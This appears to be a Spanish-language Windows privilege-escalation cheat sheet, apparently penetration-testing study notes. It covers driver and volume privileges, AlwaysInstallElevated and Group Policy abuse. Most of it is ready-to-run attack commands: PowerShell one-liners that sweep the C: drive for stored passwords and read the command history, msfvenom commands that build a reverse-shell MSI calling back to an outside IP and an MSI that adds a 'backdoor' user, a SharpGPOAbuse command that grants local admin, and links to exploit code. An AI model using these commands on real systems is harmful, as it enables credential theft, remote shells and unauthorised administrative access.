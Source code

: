 ## SeLoadDriverPrivilege
- Este privilegio permite la habilidad de cargar drivers en el sistema.
- Si aparece en `whoami /priv` como `Disabled` podemos utilizar [este .exe](https://github.com/G4sp4rCS/CPP-EnableSeLoadDriverPrivilege) para re-habilitarlo


## Credential harvesting
- `Get-ChildItem -Path C:\ -Recurse -Include *.txt,*.xml,*.ini,*.config,*.json,*.log | Select-String -Pattern 'password|user|login|credential'`
- `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
- `Get-History`: Muestra el historial de comandos ejecutados en la sesión actual de PowerShell.
- `(Get-PSReadlineOption).HistorySavePath`: Muestra la ruta del archivo donde se guarda el historial de comandos de PowerShell.

-----

## SeManageVolumePrivilege
- Este privilegio permite la habilidad de crear y eliminar volúmenes en el sistema.
- Podemos utilizar [el siguiente exploit](https://github.com/CsEnox/SeManageVolumeExploit/tree/main) para elevar privilegios.

## AlwaysInstallElevated
- Este privilegio permite la habilidad de instalar software sin necesidad de permisos de administrador.
- Armamos un payload `msfvenom -p windows/shell/reverse_tcp LHOST=192.168.45.210 LPORT=135 -f msi > payload.msi`
    - Alternativa: `msfvenom -p cmd/windows/adduser USER=backdoor PASS=P@ssw0rd123 -f msi > payload.msi`
    - Luego nos podemos conectar con winrm o usar runas


## GPOAbuse
- [Más info](https://medium.com/@raphaeltzy13/group-policy-object-gpo-abuse-windows-active-directory-privilege-escalation-51d8519a13d7)
- Podemos tener un usuario con varios permisos sobre las politicas del dominio.
![alt text](<Pasted image 20250509181313.png>)
- Podemos utilizar [SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse) para intentar agregar un usuario al grupo de administradores del dominio.
- `.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount Charlotte --GPOName "Default Domain Policy"`
